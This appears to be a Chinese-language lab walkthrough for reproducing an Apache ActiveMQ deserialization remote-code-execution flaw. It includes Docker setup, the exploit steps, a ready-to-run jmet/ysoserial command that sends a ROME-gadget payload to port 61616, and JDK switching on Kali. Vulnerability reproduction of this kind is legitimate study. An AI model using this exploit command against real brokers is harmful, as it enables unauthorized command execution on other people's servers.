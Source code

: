 进入容器

```shell
[root@centos7-6 ~]# sudo docker exec -it 8c423b972802 /bin/bash
```

创建域名映射

```shell
root@8c423b972802:/opt/apache-activemq-5.11.1# echo -e "192.168.1.57 kali.local\n192.168.1.60 centos.local" >> /etc/hosts
```

**利用过程**

1. 构造（可以使用 ysoserial ）可执行命令的序列化对象
2. 作为一个消息，发送给目标 61616 端口
3. 访问 web 管理页面，读取消息，触发漏洞

使用 [jmet](https://github.com/matthiaskaiser/jmet) 进行漏洞利用。首先下载 [jmet-0.1.0-all.jar](https://github.com/matthiaskaiser/jmet/releases/download/0.1.0/jmet-0.1.0-all.jar) 文件，并在同目录下创建一个 external 文件夹（否则可能会爆文件夹不存在的错误）

jmet 原理是使用 ysoserial 生成 Payload 并发送（其 jar 内自带 ysoserial ，无需再自己下载），所以我们需要在 ysoserial 是 gadget 中选择一个可以使用的，比如 ROME 

执行：

```
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/success" -Yp ROME your-ip 61616
```

此时会给目标 ActiveMQ 添加一个名为 event 的队列，我们可以通过 `http://your-ip:8161/admin/browse.jsp?JMSDestination=event` 看到这个队列中所有消息，管理员查看这条消息即可触发命令执行

**漏洞复现**

修改 jdk 为 /usr/local/jdk1.8.0_202/bin/java              0802

```shell
┌──(root㉿kali)-[~]
└─# sudo update-alternatives --config java
```

```
有 2 个候选项可用于替换 java (提供 /usr/bin/java)。

  选择       路径                                       优先级  状态
------------------------------------------------------------
* 0            /usr/lib/jvm/java-17-openjdk-amd64/bin/java   1711      自动模式
  1            /usr/lib/jvm/java-17-openjdk-amd64/bin/java   1711      手动模式
  2            /usr/local/jdk1.8.0_202/bin/java              0802       手动模式

要维持当前值[*]请按<回车键>，或者键入选择的编号：2
```

查看版本

```shell
┌──(root㉿a-kali-23)-[~]
└─# java -version
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
java version "1.8.0_202"
Java(TM) SE Runtime Environment (build 1.8.0_202-b08)
Java HotSpot(TM) 64-Bit Server VM (build 25.202-b08, mixed mode)
```
